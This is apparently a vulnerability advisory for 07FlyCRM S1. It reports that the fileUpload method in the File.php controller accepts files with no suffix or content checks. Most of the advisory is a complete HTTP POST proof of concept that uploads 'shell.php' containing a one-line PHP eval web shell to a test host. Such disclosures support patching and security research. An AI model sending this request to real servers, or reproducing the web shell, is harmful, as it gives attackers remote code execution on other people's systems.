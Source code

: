 # Vendor

零起飞

# Product

07FlyCRM

# version

S1

# Download 

https://gitee.com/07fly/FLY-CRM.git

# Vulnerability

FileUpload

# Description

In the 07fly crm S1 system, there is a File.php controller. The fileUpload method in this controller can be used to upload files. There is no file suffix or file content filtering in this method.

# POC
```
POST /admin/File/fileUpload HTTP/1.1
Host: 192.168.18.36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=10b48aa3ee9e085706753d2e9a74d9f6; think_var=zh-cn; Hm_lvt_580632b24aea12910a1609b81ffaf23d=1728552028,1728555854; HMACCOUNT=4D4FE04291E73193; Hm_lpvt_580632b24aea12910a1609b81ffaf23d=1728556298
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Connection: close
Content-Length: 203

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST[1]);?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
